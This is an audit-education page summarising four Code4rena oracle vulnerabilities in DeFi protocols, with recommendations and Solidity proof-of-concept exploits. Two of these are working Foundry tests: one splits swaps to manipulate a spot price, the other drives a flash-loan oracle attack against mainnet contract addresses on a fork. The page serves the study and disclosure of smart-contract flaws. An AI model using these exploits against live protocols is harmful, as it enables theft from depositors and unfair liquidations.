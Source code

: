 # ETAAcademy-Adudit: 7. Oracle

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>07. Oracle</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>oracle</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] The use of spot price by CoreSaltyFeed can lead to price manipulation and undesired liquidations

### Difference between TWAP and Chainlink

- Summary: Chainlink's instant spot prices and CoreSaltyFeed's manipulable prices create arbitrage opportunities. Low liquidity and a $500 maximum reward make attacks profitable. If Chainlink fails, a 3% market change isn't needed for the attack. Borrowers may face unexpected liquidation, and honest liquidators may be unable to act due to price manipulation.

- Impact & Recommendation: Consider replacing CoreSaltyFeed with a different oracle that provides better protection against manipulation, like Band Protocol.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#h-03-the-use-of-spot-price-by-coresaltyfeed-can-lead-to-price-manipulation-and-undesired-liquidations) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: BUSL 1.1
    pragma solidity =0.8.22;
    import "../../dev/Deployment.sol";
    import "../PoolUtils.sol";
    contract H2 is Deployment
        {
        TestERC20 immutable tokenA;
        TestERC20 immutable tokenB;
        address ALICE = address(0x1111);
        address BOB = address(0x2222);
                constructor()
            {
                initializeContracts();
                grantAccessAlice();
                grantAccessBob();
                grantAccessCharlie();
                grantAccessDeployer();
                grantAccessDefault();
                finalizeBootstrap();
                vm.startPrank(address(daoVestingWallet));
                salt.transfer(DEPLOYER, 1000000 ether);
                salt.transfer(address(collateralAndLiquidity), 1000000 ether);
                vm.stopPrank();
                vm.startPrank( DEPLOYER );
                tokenA = new TestERC20("TOKENA", 18);
                tokenB = new TestERC20("TOKENB", 18);
                vm.stopPrank();
                _prepareToken(tokenA);
                _prepareToken(tokenB);
                _prepareToken(weth);
                vm.stopPrank();
                vm.prank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, tokenB );
                vm.stopPrank();
            }
            // Make the required approvals and transfer to Bob and Alice.
            function _prepareToken(IERC20 token) internal {
                vm.startPrank( DEPLOYER );
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                // For WBTC, we can't use 'ether', so we use 10**8.
                uint decimals = TestERC20(address(token)).decimals();
                token.transfer(ALICE, 1_000_000 * (10**decimals));
                token.transfer(BOB, 1_000_000 * (10**decimals));
                vm.startPrank(ALICE);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.startPrank(BOB);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.stopPrank();
            }
            // Create pools that will participate in arbitrage
            // Note: We have all required pools for successful arbitrage, see ArbitrageSearch::_arbitragePath
            // swap: swapTokenIn->WETH
            // arb: WETH->swapTokenIn->WBTC->WETH
            // We have: tokenA/WETH, tokenA/WBTC, WBTC/WETH
            function _makeArbitragePossible(uint amountToDeposit) internal {
                // based on Pools.t.sol::testDepositDoubleSwapWithdraw
                vm.startPrank(DEPLOYER);
                wbtc.approve(address(collateralAndLiquidity), type(uint256).max );
                weth.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenB.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(pools), type(uint256).max );
                vm.warp(block.timestamp + stakingConfig.modificationCooldown());
                collateralAndLiquidity.depositCollateralAndIncreaseShare(
                    amountToDeposit * 10**8, amountToDeposit * 1 ether, 0, block.timestamp, false
                );
                vm.stopPrank();
                vm.startPrank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, wbtc);
                poolsConfig.whitelistPool( pools, tokenA, weth);
                poolsConfig.whitelistPool( pools, tokenB, wbtc);
                poolsConfig.whitelistPool( pools, tokenB, weth);
                vm.stopPrank();
                vm.startPrank(DEPLOYER);
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                vm.stopPrank();
            }
            function _getReservesAndPrice(IERC20 _tokenA, IERC20 _tokenB) internal view returns (
                string memory _tokenASymbol, string memory _tokenBSymbol,
                uint reserveA, uint reserveB, uint priceBinA
            ) {
                (reserveA, reserveB) = pools.getPoolReserves(_tokenA, _tokenB);
                _tokenASymbol = TestERC20(address(_tokenA)).symbol();
                _tokenBSymbol = TestERC20(address(_tokenB)).symbol();
                uint8  _tokenADecimals = TestERC20(address(_tokenA)).decimals();
                uint8  _tokenBDecimals = TestERC20(address(_tokenB)).decimals();
                // reserveA / reserveB  || b.decimals - a.decimals  || normalizer
                // 1e8/1e18             || diff 10                  || 1e28
                // 1e18/1e18            || diff 0                   || 1e18
                // 1e18/1e8             || diff -10                 || 1e8
                int8 decimalsDiff = int8(_tokenBDecimals) - int8(_tokenADecimals);
                uint normalizerPower = uint8(int8(18) + decimalsDiff);
                uint normalizer = 10**normalizerPower;
                // price with precision 1e18
                priceBinA = reserveB == 0
                        ? 0
                        : ( reserveA * normalizer ) / reserveB;
            }
            function _printReservesAndPriceFor(IERC20 _tokenA, IERC20 _tokenB) internal view
            {
                (
                    string memory _tokenASymbol,
                    string memory _tokenBSymbol,
                    uint reserveA,
                    uint reserveB,
                    uint priceBinA
                ) = _getReservesAndPrice(_tokenA, _tokenB);
                console2.log("%s reserves: %e", _tokenASymbol , reserveA);
                console2.log("%s reserves: %e", _tokenBSymbol, reserveB);
                console2.log("%s price in %s: %e", _tokenBSymbol, _tokenASymbol, priceBinA);
                console.log("");
            }
            // Extracted some local variables to storage due to too many local variables.
            struct MovePriceParams {
                uint amountToExchange;
                uint expectedMovementPercents;
                uint expectedLoss;
            }
            uint gasBefore = 1; // Set to 1 to save gas on updates and obtain more accurate gas estimations.
            uint stepsCount;
            // Splitting a swap into several steps will significantly reduce slippage.
            // More steps will further reduce slippage, thereby decreasing the cost of the attack.
            // However, too many steps can incur high gas costs; for instance, 100 steps will cost approximately 3+4=7 million gas (as indicated in the console.log output).
            uint constant steps = 100;
            function _movePrice(MovePriceParams memory p) internal {
                /* Before the attack */
                console.log("\n%s", "__BEFORE");
                // Check price before
                (,,,,uint priceBefore) = _getReservesAndPrice(tokenA, weth);
                assertEq(1 ether, priceBefore); // price is 1:1
                _printReservesAndPriceFor(tokenA, weth);
                uint wethBefore = weth.balanceOf(ALICE);
                uint tokenABefore = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", wethBefore);
                console2.log("tokenA.balanceOf(ALICE): %e", tokenABefore);
                /* Move the price */
                vm.startPrank(ALICE);
                gasBefore = gasleft();
                for (uint i; i < steps; i++){
                    pools.depositSwapWithdraw(tokenA, weth, p.amountToExchange/steps, 0, block.timestamp + 300);
                }
                console.log("Gas first(for) loop: ", gasBefore - gasleft());
                /* After the attack */
                console.log("\n%s", "__AFTER");
                // Console.log the output
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfter = weth.balanceOf(ALICE);
                uint tokenAAfter = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                uint wethGained = wethAfter - wethBefore;
                uint tokenALost = tokenABefore - tokenAAfter;
                console2.log("weth.balanceOf(ALICE) diff: %e", wethGained);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenALost);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                uint attackPrice = tokenALost - wethGained;
                console2.log("Losses for the attacker (before swapping back): %e", attackPrice);
                // Assert that the attack was successful and inexpensive.
                (,,,,uint priceAfter) = _getReservesAndPrice(tokenA, weth);
                uint priceDiff = priceAfter - priceBefore;
                assertTrue(priceDiff >= p.expectedMovementPercents * 1 ether / 100);
                /* The attacker can further reduce the cost by exchanging back. */
                /* After the exchange, the price is moved back. */
                console.log("\n%s", "__AFTER_EXCHANGING_BACK");
                (,,,,uint currentPrice) = _getReservesAndPrice(tokenA, weth);
                uint step = p.amountToExchange/steps;
                gasBefore = gasleft();
                while (currentPrice > 1 ether){
                    pools.depositSwapWithdraw(weth, tokenA, step, 0, block.timestamp);
                    (,,,,currentPrice) = _getReservesAndPrice(tokenA, weth);
                    stepsCount++;
                }
                // Console.log the output
                console2.log("Gas second(while) loop: ", gasBefore - gasleft());
                console2.log("stepsCount", stepsCount);
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfterBalancing = weth.balanceOf(ALICE);
                uint tokenAAfterBalancing = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                int wethDiff = int(wethAfterBalancing) - int(wethBefore);
                int tokenADiff = int(tokenAAfterBalancing) - int(tokenABefore);
                console2.log("weth.balanceOf(ALICE) diff: %e", wethDiff);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenADiff);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                int sumDiff = wethDiff + tokenADiff;
                console2.log("Diff (positive=profit) for the attacker: %e", sumDiff);
                console2.log("Arbitrage profits for DAO: %e", pools.depositedUserBalance(address(dao), weth ));
            }
        function testMovePrice10PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(75 ether, 10, 0.0363 ether));
            }
        function testMovePrice3PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(23 ether, 3, 0.0036 ether));
            }
        function testMovePrice3PercentsFor100EtherPools() public
            {
                _makeArbitragePossible(100);
                _movePrice(MovePriceParams(2.3 ether, 3, 0.0004 ether));
            }
        function testMovePrice3PercentsFor10EtherPools() public
            {
                _makeArbitragePossible(10);
                _movePrice(MovePriceParams(0.23 ether, 3, 0.00008 ether));
            }
    }

  ```

  </details>

## 2.[High] OUSGInstantManager will allow excessive OUSG token minting during USDC depeg event

### Excessive OUSG token minting during USDC depeg

- Summary: OUSGInstantManager allows users to mint OUSG tokens using USDC, based on a fixed conversion rate, without validation checks on the current USDC price. The minting logic relies on the OUSG price obtained from an oracle, constrained to ensure stability. During a USDC depeg event, where USDC's value deviates from 1 USD, users can potentially mint excessive OUSG tokens, leading to a significant impact on token supply.

- Impact & Recommendation: Excessive OUSG token minting during USDC depeg events. Implement an additional Oracle to consider current USDC price when calculating OUSG token minting.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-ondo-finance#h-01-ousginstantmanager-will-allow-excessive-ousg-token-minting-during-usdc-depeg-event) & [Report](https://code4rena.com/reports/2024-03-ondo-finance)

  <details><summary>POC</summary>

  ```solidity
       function setPrice(int256 newPrice) external onlyRole(SETTER_ROLE) {
       if (newPrice <= 0) {
         revert InvalidPrice();
       }
   @-> if (block.timestamp - priceTimestamp < MIN_PRICE_UPDATE_WINDOW) {
         revert PriceUpdateWindowViolation();
       }
   @-> if (_getPriceChangeBps(rwaPrice, newPrice) > MAX_CHANGE_DIFF_BPS) {
         revert DeltaDifferenceConstraintViolation();
       }
       // Set new price
       int256 oldPrice = rwaPrice;
       rwaPrice = newPrice;
       priceTimestamp = block.timestamp;
       emit RWAPriceSet(oldPrice, newPrice, block.timestamp);
     }

       function _getMintAmount(
           uint256 usdcAmountIn,
           uint256 price
       ) internal view returns (uint256 ousgAmountOut) {
           uint256 amountE36 = _scaleUp(usdcAmountIn) * 1e18;
           ousgAmountOut = amountE36 / price;
       }

  ```

  </details>

## 3.[High] Anyone making use of the MagicLP’s TWAP to determine token prices will be exploitable.

### TWAP updating mechanism

- Summary: MagicLP's TWAP updating mechanism allows attackers to manipulate recorded prices by inflating reserves before a query, resulting in potentially exploitative trading conditions for unsuspecting users. This can lead to significant profit for attackers who exploit the manipulated prices during trading activities, posing a risk to any application relying on MagicLP’s TWAP for token price determination.

- Impact & Recommendation: `_twapUpdate()` needs to be called before reserves are updated.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-abracadabra-money#h-01-anyone-making-use-of-the-magiclps-twap-to-determine-token-prices-will-be-exploitable) & [Report](https://code4rena.com/reports/2024-03-abracadabra-money)

<details><summary>POC</summary>

```solidity
    function _twapUpdate() internal {
        uint32 blockTimestamp = uint32(block.timestamp % 2 ** 32);
        uint32 timeElapsed = blockTimestamp - _BLOCK_TIMESTAMP_LAST_;
        if (timeElapsed > 0 && _BASE_RESERVE_ != 0 && _QUOTE_RESERVE_ != 0) {
            /// @dev It is desired and expected for this value to
            /// overflow once it has hit the max of `type.uint256`.
            unchecked {
                _BASE_PRICE_CUMULATIVE_LAST_ += getMidPrice() * timeElapsed;
            }
        }
        _BLOCK_TIMESTAMP_LAST_ = blockTimestamp;
    }

    function _resetTargetAndReserve() internal returns (uint256 baseBalance, uint256 quoteBalance) {
        baseBalance = _BASE_TOKEN_.balanceOf(address(this));
        quoteBalance = _QUOTE_TOKEN_.balanceOf(address(this));
        if (baseBalance > type(uint112).max || quoteBalance > type(uint112).max) {
            revert ErrOverflow();
        }
        _BASE_RESERVE_ = uint112(baseBalance);
        _QUOTE_RESERVE_ = uint112(quoteBalance);
        _BASE_TARGET_ = uint112(baseBalance);
        _QUOTE_TARGET_ = uint112(quoteBalance);
        _RState_ = uint32(PMMPricing.RState.ONE);
        _twapUpdate();
    }
    function _setReserve(uint256 baseReserve, uint256 quoteReserve) internal {
        _BASE_RESERVE_ = baseReserve.toUint112();
        _QUOTE_RESERVE_ = quoteReserve.toUint112();
        _twapUpdate();
    }


```

</details>

## 4.[High] Oracle price can be manipulated

### Oracle price

- Summary: MagicLpAggregator allows attackers to manipulate pair token prices by inflating reserve values. For example, an attacker can use a flash loan to inflate the pair price, which can deceive users relying on the oracle's price information, leading to potential financial losses.

- Impact & Recommendation: Consider add a sanity check in MagicLpAggregator to compare base and quote token prices with the Chainlink price feed.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-abracadabra-money#h-04-oracle-price-can-be-manipulated) & [Report](https://code4rena.com/reports/2024-03-abracadabra-money)

<details><summary>POC</summary>

```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;
    import "utils/BaseTest.sol";
    import "oracles/aggregators/MagicLpAggregator.sol";
    // import "forge-std/console2.sol";
    interface IDodo {
        function getVaultReserve() external view returns (uint256 baseReserve, uint256 quoteReserve);
        function _QUOTE_TOKEN_() external view returns (address);
        function sellBase(address to) external returns (uint256);
        function sellQuote(address to) external returns (uint256);
    }
    interface IFlashMinter {
        function flashLoan(address, address, uint256, bytes memory) external;
    }
    contract MagicLpAggregatorExt is MagicLpAggregator {
        constructor(
            IMagicLP pair_,
            IAggregator baseOracle_,
            IAggregator quoteOracle_
        ) MagicLpAggregator(pair_, baseOracle_, quoteOracle_) {}
        function _getReserves() internal view override returns (uint256, uint256) {
            return IDodo(address(pair)).getVaultReserve();
        }
    }
    contract Borrower {
        IFlashMinter private immutable minter;
        IDodo private immutable dodoPool;
        MagicLpAggregator private immutable oracle;
        constructor(address _minter, address _dodoPool, address _oracle) {
            minter = IFlashMinter(_minter);
            dodoPool = IDodo(_dodoPool);
            oracle = MagicLpAggregator(_oracle);
        }
        /// Initiate a flash loan
        function flashBorrow(address token, uint256 amount) public {
            IERC20Metadata(token).approve(address(minter), ~uint256(0));
            minter.flashLoan(address(this), token, amount, "");
        }
        /// ERC-3156 Flash loan callback
        function onFlashLoan(
            address initiator,
            address token, // DAI
            uint256 amount,
            uint256 fee,
            bytes calldata data
        ) external returns (bytes32) {
            // tamper with the DAI/USDT pool
            IERC20Metadata(token).transfer(address(dodoPool), amount);
            dodoPool.sellBase(address(this));
            IERC20Metadata quote = IERC20Metadata(dodoPool._QUOTE_TOKEN_());
            uint256 quoteAmount = quote.balanceOf(address(this));
            // pair price after tampering
            uint256 response = uint256(oracle.latestAnswer());
            console.log("BAD ANSWER: ", response);
            // Do something evil here
            // swap tokens back and repay the loan
            address(quote).call{value: 0}(abi.encodeWithSignature("transfer(address,uint256)", address(dodoPool), quoteAmount));
            dodoPool.sellQuote(address(this));
            IERC20Metadata(token).transfer(initiator, amount + fee);
            return keccak256("ERC3156FlashBorrower.onFlashLoan");
        }
    }
    contract MagicLpAggregatorTest is BaseTest {
        MagicLpAggregatorExt aggregator;
        address public DAI = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
        address constant DAI_MINTER = 0x60744434d6339a6B27d73d9Eda62b6F66a0a04FA;
        address constant DODO_POOL = 0x3058EF90929cb8180174D74C507176ccA6835D73;
        function setUp() public override {
            fork(ChainId.Mainnet, 19365773);
            _setUp();
        }
        function _setUp() public {
            super.setUp();
            aggregator = new MagicLpAggregatorExt(
                IMagicLP(DODO_POOL),
                IAggregator(0xAed0c38402a5d19df6E4c03F4E2DceD6e29c1ee9),
                IAggregator(0x3E7d1eAB13ad0104d2750B8863b489D65364e32D)
            );
        }
        function testGetResult() public {
            uint256 response = uint256(aggregator.latestAnswer());
            // pair price before ~ $2
            assertEq(response, 2000502847471294054);
            console.log("GOOD ANSWER: ", response);
            // use DAI flash minter to inflate the pair price to $67
            Borrower borrower = new Borrower(DAI_MINTER, DODO_POOL, address(aggregator));
            deal(DAI, address(borrower), 1100 * 1e18);
            IERC20Metadata(DAI).approve(address(borrower), type(uint256).max);
            borrower.flashBorrow(DAI, 100_000_000 ether);
        }
    }

```

</details>

